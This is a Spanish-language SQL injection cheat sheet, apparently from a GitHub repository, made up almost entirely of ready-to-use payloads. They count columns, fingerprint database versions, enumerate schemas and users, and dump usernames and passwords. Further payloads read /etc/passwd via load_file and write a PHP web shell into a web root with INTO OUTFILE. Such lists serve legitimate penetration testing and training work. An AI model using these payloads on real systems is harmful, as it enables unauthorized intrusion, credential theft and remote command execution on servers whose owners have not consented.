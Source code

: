 ## Número Columnas
```sql
' ORDER BY 1-- -
' ORDER BY 100-- -
' ORDER BY 1,2,3,4,5-- -
' ORDER BY 1,2,3,4,5#

' UNION SELECT NULL,NULL,NULL-- -
' UNION SELECT "Test",2,NULL#
' UNION SELECT @@version,NULL,NULL#
```
### ORACLE
```sql
' UNION SELECT 'NULL','NULL' FROM+dual-- -
```
## Versiones
### ORACLE
```sql
' UNION SELECT BANNER, NULL FROM v$version--
' SELECT version FROM v$instance--
```
### MySQL and Microsoft
```sql
' UNION SELECT @@version, NULL-- -
```
### PostgreSQL
```sql
' UNION SELECT version(), NULL-- -
```
## Nombre de la BD actual
```sql
' UNION SELECT NULL,database(),NULL-- -
' UNION SELECT NULL,database(),NULL#
```
## Usuario
```sql
' UNION SELECT NULL,user(),NULL-- -
' UNION SELECT NULL,user(),NULL#
```
## Enumerar las DB
```sql
UNION SELECT NULL,schema_name,NULL from information_schema.schemata-- -
UNION SELECT NULL,schema_name,NULL from information_schema.schemata limit 1,1-- -
UNION SELECT NULL,schema_name,NULL from information_schema.schemata limit 2,1-- -
UNION SELECT NULL,schema_name,NULL from information_schema.schemata#
UNION SELECT NULL,schema_name,NULL from information_schema.schemata limit 1,1#
```
## Data
```sql
UNION SELECT NULL,username,NULL from users-- -
UNION SELECT NULL,password,NULL from users#
UNION SELECT NULL,concat(Username,0x3a,Password),NULL from Colegio.Users-- -
UNION SELECT NULL,concat(Username,0x3a,Password),NULL from Colegio.Users#
```
## Leyendo Archivos
```sql
UNION SELECT NULL,load_file('/etc/passwd'),NULL-- -
UNION SELECT NULL,load_file('/etc/passwd'),NULL#
```
## Escribiendo Archivos
```sql
' union select ("<?php system($_GET['cmd']) ?>") into outfile "C:/xampp/htdocs/shell.php"-- -
```
